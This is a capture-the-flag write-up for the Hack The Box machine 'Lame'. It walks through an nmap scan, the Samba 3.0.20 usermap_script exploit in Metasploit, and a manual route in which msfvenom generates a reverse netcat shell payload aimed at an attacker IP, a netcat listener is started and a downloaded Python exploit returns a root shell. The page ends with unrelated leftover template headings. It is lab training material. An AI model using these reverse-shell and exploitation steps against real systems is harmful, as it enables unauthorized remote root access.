 # Lame - 10.10.10.3
![](/images/lame/1. lame.png "Lame Info Card")

Contents:

1. TOC
{:toc}

## Scanning and Enumeration

We start with a basic nmap scan to see what ports are open:

    nmap -A -T4 10.10.10.3

![](/images/lame/2. nmap.png "nmap results")
![](/images/lame/3. nmap_2.png "nmap results")

So we have ftp, ssh, and smb open.  Normally it would be worth exploring ftp to see if we can access any files that may contain ssh creds since ssh is open as well.  From what we can tell so far, this appears to be some sort of Debian-based Linux machine.

In this case though we see a Unix Samba version - Samba 3.0.20, so let's try searching for that.

![](/images/lame/4. google_samba_exploit.png "Google: Samba 3.0.20-debian exploit")

→ So we have a rapid7 (metasploit) result as well as an exploitdb result.  Let's open both:

https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script

https://www.exploit-db.com/exploits/16320


## Exploitation using Metasploit


https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script

→ The rapid7 website has the following instructions for using the metasploit module:

![](/images/lame/5. metasploit options.png "rapid7 website")

→ So let's try them.  Load up msfconsole and follow the steps:

    use exploit/multi/samba/usermap_script

    show options

![](/images/lame/6. msf_1.png "metasploit")

    set rhosts 10.10.10.3

    show targets

![](/images/lame/7. msf_2.png "metasploit")


We have set the remote host (rhosts, aka the target), and the only target available is Automatic. Let's try and run it.

    run

![](/images/lame/8. msf_3.png "metasploit")

[+] Success!  We are root.  

Notice this shell does not give a prompt after the initial connection.  After you see the “Command shell session 1 opened...”  you should have a shell and be able to enter commands.

Let's go get some flags.

    cat /home/makis/user.txt

    cat /root/root.txt

![](/images/lame/9. user_flag.png "user flag")

![](/images/lame/10. root_flag.png "root flag")

And there we have our user and root flags.


## Manual Exploitation








https://www.exploit-db.com/exploits/16320

![](/images/lame/11. exploit_db.png "exploit-db entry")

In this case, the exploit-db entry is the Metasploit module.  Let's go back to Google and try to find something elsewhere:

![](/images/lame/12. google.png "google for the win")

Let's try this one. It contains a python script we should be able to modify to our needs.

![](/images/lame/13. github_exploit.png "exploit on github")

Click on the “Raw” and then copy/paste the code into your own python file. I'm calling mine “samba-exploit.py”

I'm using gedit, but feel free to use your text editor of choice. In your samba-exploit.py file, check out the following section:

![](/images/lame/14. edit_code.png "initial shellode")

Here we need to generate our own shellcode and then use it to replace all the "buf =" and "buf +=" lines.  Let's get to it:

    msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.24 LPORT=9997 -f python

Make sure you use your own IP address for the LHOST. 

This command may take a few moments to run and generate the shellcode.

![](/images/lame/15. msfvenom.png "msfvenom for shellcode")

Now copy/paste the generated shellcode into your samba-exploit.py:

![](/images/lame/16. edit_shellcode.png "editing the shellcode")

→ Notice I also replaced the comment above the shellcode with the actual msfvenom command I used. This is good practice if I ever need to refer back to this code.

→ Next, save the samba-exploit.py file and then chmod +x it to make it executable, then we can try and run it with no options:

   ⇒ chmod +x samba-exploit.py

   ⇒ ./samba-exploit.py

![](/images/lame/17. chmod.png "chmod the script")

→ Looks simple - just add the IP address of the target.  First though we need to set up our listener to catch the callback.  In a separate terminal window, run:

   ⇒ nc -lvnp 9997   

   ⇒ Note: This port must match whatever port number your chose for LPORT= in your shellcode

![](/images/lame/18. nc_listen.png "listener setup")

→ Now in the first terminal window we can run the exploit!

   ⇒ ./samba-exploit.py 10.10.10.3

![](/images/lame/19. samba_exploit.png "execute the exploit")

→ This will appear to hang, that is normal.  Over in your second terminal window with the nc listener you should see:

![](/images/lame/20. nc_connect.png "nc reverse shell connection")

→ Notice in the above I already ran the “whoami” command...and we are root!  Success!

→ Let's go get some flags:

![](/images/lame/21. flags.png "flags")

→ And there you have it, our user and root flags.



## Basic formatting

You can use *italics*, **bold**, `code font text`, and create [links](https://www.markdownguide.org/cheat-sheet/). Here's a footnote [^1]. Here's a horizontal rule:


## Images

![rax logo](/images/rax_intel.jpg)

## Code
